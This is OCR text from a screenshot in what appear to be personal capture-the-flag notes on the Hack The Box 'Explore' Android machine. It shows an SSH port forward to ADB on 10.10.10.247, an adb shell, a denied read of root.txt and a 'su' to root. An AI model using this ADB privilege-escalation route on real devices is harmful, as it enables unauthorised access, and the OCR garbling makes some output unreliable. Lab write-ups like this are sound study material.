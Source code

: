 ![](Maszyny/Inne/Explore%20-%20Android/Pasted%20image%2020210730231141.png)

(kali kali-os)-[/opt/phones/Phonesploit]
ssh -p 2222 -L 5555: localhost:5555 kristi@10.10.10.247
130 X 7 0
Password authentication
Password:
:/ $ id
uid=10076(u0_a76) gid=10076(u@_a76) groups=10076(u@_a76),3003( inet),9997(everybody), 20076(u0_a76_cache), 50076(all_a76) context=u:r: untrusted_app:50:c76,c256,0512,c768
:/ $
Kolore
(kali kali-os)-[/opt/phones/PhoneSploit]
(kali kali-os)-[/opt/phones/PhoneSploit]
adb shell
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input), 1007(log), 1011(adb), 1015( sdcard_rw),1028( sdcard_r),3001(net_bt_admin),3002 (net_bt),3003( inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:50
x86_64:/ $ cat /data/root.txt
cat: /data/root.txt: Permission denied
1 x86_64:/ $ su
:) #1
10 10 10 247
